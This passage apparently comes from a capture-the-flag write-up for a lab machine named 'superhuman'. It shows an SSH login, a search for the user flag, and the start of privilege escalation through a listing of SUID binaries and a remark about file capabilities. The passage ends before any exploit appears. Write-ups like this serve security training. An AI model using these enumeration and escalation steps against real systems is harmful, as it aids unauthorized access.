 ```shell
fred
fred@superhuman:~$ id
uid=1000(fred) gid=1000(fred) groups=1000(fred),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
fred@superhuman:~$ ls
lol
Connection to 192.168.0.140 closed.
```

- If we try to run `ls` the connection will be terminated! 🙂

#### >> Try to find the user flag
```shell

┌──(kali㉿kali)-[~]
└─$ ssh fred@192.168.0.140
fred@192.168.0.140's password: 
Linux superhuman 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Sep  3 05:31:23 2024 from 192.168.0.137
fred@superhuman:~$ find / -name user* 2>/dev/null
/home/fred/user.txt
```
 - And we found the user flag!!! 👽
<br>

## Privilege escalation
```shell
fred@superhuman:~$ find / -name user* 2>/dev/null
/home/fred/user.txt
fred@superhuman:~$ sudo -l
-bash: sudo: command not found
fred@superhuman:~$ find / -type f -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/su
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/umount
/usr/bin/chfn
```
- looking around a bit but no luck! 🙁
- look for ways to escalate privileges and found out about file capabilities
- Found a file with capabilities permissions.
